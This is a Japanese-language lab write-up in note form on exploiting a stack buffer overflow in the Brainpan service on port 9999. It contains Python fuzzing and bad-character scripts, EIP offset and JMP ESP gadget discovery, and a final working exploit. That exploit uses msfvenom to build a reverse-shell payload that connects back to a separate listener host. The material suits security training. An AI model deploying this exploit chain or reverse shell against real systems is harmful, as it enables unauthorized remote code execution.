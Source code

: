 

### ファジング

### 動作確認

`nc`で接続したらおｋ、そのあとパスワードを聞かれるっぽい
パスワードが脆弱？
```sh
nc 192.168.40.47 9999
>> hello
```

![[Pasted image 20240803224154.png]]
![[Pasted image 20240803224247.png]]

#### 脆弱性確認
```python
import socket
import sys
import time

buffer = b"A" * 100
while True:  
  try:  
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.settimeout(5)
    s.connect(('192.168.40.47',9999))
    s.send((buffer))  
    s.close()  
    time.sleep(1)  
    buffer = buffer + b"A"*100
  except Exception as e:
    print(e)  
    print("Fuzzing has crashed at {0} bytes".format(str(len(buffer))))
    sys.exit()

```
![[Pasted image 20240803223938.png]]
![[Pasted image 20240803223848.png]]

`EIP`も`41414141`で上書きできてるから成功してそう

#### EIP上書きのバイト数を確認


![[Pasted image 20240803224452.png]]

```
[+]send buffer
[*]Input EIP value >> 35724134
[+] Exact match at offset 524
[+] EIP is 525 ~ 528 bytes
```
![[Pasted image 20240803230025.png]]

`EIP`を上書きできる位置は `525`~`528`byteであるとわかった


### BadCharチェック

```python
import socket
import sys

def generate_badchars():
    badchars  = b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
    badchars += b"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
    badchars += b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
    badchars += b"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
    badchars += b"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
    badchars += b"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
    badchars += b"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
    badchars += b"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
    return badchars

buffer = b"A"*524
buffer += b"B" * 4
buffer += generate_badchars()

try:  
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  s.settimeout(5)
  s.connect(('192.168.40.47',9999))
  s.send(buffer)  
  s.close()  

except Exception as e:
  print(e)  
  sys.exit()
```

FDが右下に来てるからBadCharはなしでよさげ
![[Pasted image 20240803232114.png]]

---

### とび先の確定

```
└─$ /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > JMP ESP
00000000  FFE4              jmp esp
nasm > 
```

まず、`JMP ESP`がありそうなモジュールを探す。
```sh
!mona modules
```
![[Pasted image 20240803234748.png]]
この中で、ASLR無効になっているのは `brainpan.exe`のみ。
`JMP ESP`は`brainpan.exe`から探す。
```sh
!mona find -s '\xff\xe4' -m brainpan.exe
```
![[Pasted image 20240803234934.png]]

`0x311712f3`が`JMP ESP`であることがわかった。
`EIP`には`f3 12 17 31`を渡せばいい

### Exploit

```python
import socket
import sys
import subprocess

buf = subprocess.check_output(['msfvenom -p windows/shell_reverse_tcp LHOST=192.168.40.50 LPORT=4444 -f raw -a x86 -b "\\x00"'],shell=True)
nop = b"\x90" * 32 
jmp_addr = b"\xf3\x12\x17\x31"
buffer = b"A"*524
payload = buffer + jmp_addr + nop + buf

try:  
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  s.settimeout(5)
  s.connect(('192.168.40.47',9999))
  s.send(payload)  
  s.close()  

except Exception as e:
  print(e)  
  sys.exit()

```
![[Pasted image 20240804000247.png]]

![[Pasted image 20240804000229.png]]

![[Pasted image 20240804000217.png]]